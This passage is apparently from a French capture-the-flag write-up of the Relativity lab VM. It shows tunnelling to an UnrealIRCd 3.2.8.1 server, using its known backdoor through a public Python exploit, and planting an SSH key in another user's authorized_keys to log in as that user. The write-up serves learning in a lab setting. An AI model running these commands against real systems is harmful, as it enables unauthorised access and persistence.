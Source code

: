 D'abord en local je lance [un serveur HTTP minimaliste python-powered](http://docs.python.org/2/library/simplehttpserver.html) en étant dans le même dossier que *KevProxy.c* :

```plain
python -m SimpleHTTPServer 8000
```

Puis sur mon accès VM :

* je lance un petit one-liner Python pour remplacer le wget
* je compile KevProxy
* je le lance pour créer mon tunnel vers le serveur IRC

![Redirection de port avec KevProxy](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity7.png)

Plus qu'à configurer *Konversation* pour se connecter au serveur *UnrealIRC* :  

![Connexion au serveur UnrealIRCd](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity8.png)

On remarque que le serveur est en version 3.2.8.1. Il s'agit ni plus ni moins [d'une version qui a été backdoorée](http://d4n3ws.polux-hosting.com/2010/06/13/unrealircd-backdoore/) et dont on trouve différents exploits [sur *SecurityFocus*](http://www.securityfocus.com/bid/40820/exploit).  

Mon dévolu s'est porté sur l'exploit en version Python. Le principe de la backdoor consiste à envoyer une commande de la sorte au serveur :  

```plain
AB;ls;
```

Ainsi la commande *ls* sera exécutée. Il faut modifier quelque peu l'exploit car le serveur affiche deux messages avant de bien vouloir recevoir les commandes (on placera deux recv) et il faut aussi prendre en compte le fait que l'output n'est pas directement retourné (on lance les commandes en aveugle).  

On va utiliser le fait qu'on dispose déjà d'une clé SSH connue sur le système pour nous ouvrir les portes de l'utilisateur *jetta* :

```plain
python 40820.py 192.168.1.57 9999 "mkdir -p /home/jetta/.ssh"
python 40820.py 192.168.1.57 9999 "cat /home/mauk/.ssh/id_rsa.pub >> /home/jetta/.ssh/authorized_keys"
```

puis on se connecte :

```plain
ssh -i mauk_key jetta@192.168.1.57
```

Capture the flag
----------------

On remarque que dans son *home* l'utilisateur dispose d'un dossier *auth\_server* appartenant à root.  

Dans ce dossier on trouve un autre binaire du même nom. Le programme n'est pas setuid root mais quand on appelle *sudo -l* on obtient :
